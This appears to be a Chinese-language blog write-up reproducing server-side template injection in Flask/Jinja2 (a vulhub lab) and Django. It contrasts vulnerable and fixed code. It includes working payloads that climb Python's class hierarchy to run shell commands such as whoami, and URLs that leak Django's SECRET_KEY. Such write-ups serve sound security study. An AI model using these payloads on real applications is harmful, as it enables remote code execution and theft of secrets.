









> 本文是跟随https://www.cnblogs.com/bmjoker/p/13508538.html的分析复现，关于java php框架的模板注入漏洞，可以去原文中查看。在此只分析python框架

### 漏洞原理

模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，**利用模板引擎来生成前端的html代码**，模板引擎会提供一套生成html代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成模板+用户数据的前端html页面，然后反馈给浏览器，呈现在用户面前。

SSTI 就是服务器端模板注入（Server-Side Template Injection）

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其**作为 Web 应用模板内容的一部分**，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句。因而可能导致了敏感信息泄露、代码执行等问题。

凡是使用模板的地方都可能会出现 SSTI 的问题

## Flask（Jinja2） 服务端模板注入漏洞

### 漏洞分析复现

使用/vulhub/flask/ssti环境

Jinja2是一种面向Python的现代和设计友好的模板语言，它是以Django的模板为模型的，Jinja2是Flask框架的一部分。

此漏洞提供了环境源码

~~~python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')  //name参数由用户输入

    t = Template("Hello " + name) //将输入的name拼接到模板，此时name的输入没有经过任何检测
    return t.render()

if __name__ == "__main__":
    app.run()
~~~

使用模板语言测试

如果使用一个固定好了的模板，在模板渲染之后传入数据，就不存在模板注入，就好像SQL注入的预编译一样，修复上面代码如下：

~~~python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello {{n}}")
    return t.render(n=name)

if __name__ == "__main__":
    app.run()
~~~

### 漏洞利用

可以通过ssti执行python代码

由于在jinja2中是可以直接访问python的一些对象及其方法的，所以可以通过构造继承链来执行一些操作，比如文件读取，命令执行等

用file对象读取文件

不过**python3已经移除了file。所以利用file子类文件读取只能在python2中用。**

在Python中，有一个内建模块，该模块中有一些常用函数;而该模块在Python启动后、且没有执行程序员所写的任何代码前，Python会首先加载该内建函数到内存。另外，该内建模块中的功能可以直接使用，不用在其前添加内建模块前缀，其原因是对函数、变量、类等标识符的查找是按LE(N)GB法则，其中B即代表内建模块。比如：内建模块中有一个abs()函数，其功能是计算一个数的绝对值，如abs(-20)将返回20。

在Python2.X版本中，内建模块被命名为__builtin__，而到了Python3.X版本中，却更名为builtins。

~~~python
search = '__builtins__'
num = 0
for i in {}.__class__.__bases__[0].__subclasses__():
    try:
        #print(i.__init__.__globals__.keys())
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
    num += 1
~~~

构造payload如下

~~~python
{}.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
~~~

只要是含有内建模块的类即可

~~~python
{}.__class__.__bases__[0].__subclasses__()[110].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
~~~

综合利用如下

~~~python
print ({}.__class__.__bases__[0].__subclasses__()[80].__name__)
print("\n")
#####################
for i in {}.__class__.__bases__[0].__subclasses__():
    if i.__name__=='_ModuleLock':
        print(i.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')"))
~~~

将payload转换成模板语句

~~~python

    
        {{ i.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')") }}
    

~~~

进行url编码，用%0A替换换行。回车还能url编码我第一次遇到。

~~~
%7B%25%20for%20i%20in%20%7B%7D.__class__.__bases__%5B0%5D.__subclasses__()%20%25%7D%0A%20%20%20%20%7B%25%20if%20i.__name__%3D%3D%27_ModuleLock%27%20%25%7D%0A%20%20%20%20%20%20%20%20%7B%7B%20i.__init__.__globals__%5B%27__builtins__%27%5D%5B%27eval%27%5D("__import__(%27os%27).system(%27whoami%27)")%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
~~~

然而我自己写的payload执行结果是0。推测是返回值格式的问题。

修改payload

~~~python

    
        {{ i.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()') }}
    

~~~

~~~
%7B%25%20for%20i%20in%20%7B%7D.__class__.__bases__%5B0%5D.__subclasses__()%20%25%7D%0A%20%20%20%20%7B%25%20if%20i.__name__%3D%3D%27_ModuleLock%27%20%25%7D%0A%20%20%20%20%20%20%20%20%7B%7B%20i.__init__.__globals__%5B%27__builtins__%27%5D%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22whoami%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
~~~

成功执行命令

## Djiango SSTI

~~~
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
~~~

很明显 email 就是注入点，但是条件被限制的很死，很难执行命令，现在拿到的只有有一个和user有关的变量request.user ，这个时候我们就应该在没有应用源码的情况下去寻找框架本身的属性，看这个空框架有什么属性和类之间的引用。

后来发现Django自带的应用 "admin"（也就是Django自带的后台）的models.py中导入了当前网站的配置文件：

所以可以通过某种方式，找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。

payload如下：

~~~
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
~~~

## SSTI利用工具

https://github.com/epinna/tplmap

> 参考资料
> https://blog.csdn.net/ssliudh1226/article/details/53420565
> https://www.cnblogs.com/bmjoker/p/13508538.html  介绍的很详细